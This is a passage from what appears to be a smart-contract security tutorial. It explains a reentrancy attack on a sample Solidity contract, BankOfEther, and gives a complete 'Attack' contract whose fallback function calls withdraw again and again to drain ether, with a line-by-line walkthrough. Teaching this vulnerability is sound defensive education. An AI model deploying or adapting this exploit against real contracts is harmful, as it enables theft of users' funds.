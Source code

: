Let us consider an example of a contract that can carry out the reentrancy attack on `BankOfEther`. Let’s call it `Attack`:


    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.17;
    
    contract Attack {
        BankOfEther public bankOfEther;
    
        constructor(address _bankOfEtherAddress) {
            bankOfEther = BankOfEther(_bankOfEtherAddress);
        }
    
        // Fallback is called when BankOfEther sends Ether to this contract.
        fallback() external payable {
            if (address(bankOfEther).balance >= 1 ether) {
                bankOfEther.withdraw(1 ether);
            }
        }
    
        function attack() external payable {
            require(msg.value >= 1 ether);
            bankOfEther.deposit{value: 1 ether}();
            bankOfEther.withdraw(1 ether);
        }
    
        // Helper function to check the balance of this contract
        function getBalance() public view returns (uint) {
            return address(this).balance;
        }
    }

The `Attack` contract first stores the target contract, `BankOfEther` in a state variable called `bankOfEther`. The address of the `bankOfEther` variable is passed as an argument when the `Attack` contract is deployed.


    BankOfEther public bankOfEther; //set target exploit
    
    constructor(address _bankOfEtherAddress) {
        bankOfEther = BankOfEther(_bankOfEtherAddress); //update the address of the target to BankOfEther
    }

To successfully perform the exploit, the `Attack()` contract must have two functions. They are:

1. The `attack()` function. It initiates the attack.
2. The `fallback()` function.

We deposit 1 ETH into the `BankOfEther` in the `attack()` function. Immediately after this, we withdraw the 1 ETH that was deposited.


    
        function attack() external payable {
            require(msg.value >= 1 ether); //check that there is enough ether to perform withdrawal
            bankOfEther.deposit{value: 1 ether}(); //deposit 1 ether
            bankOfEther.withdraw(1 ether); //withdraw the 1 ether back
        }
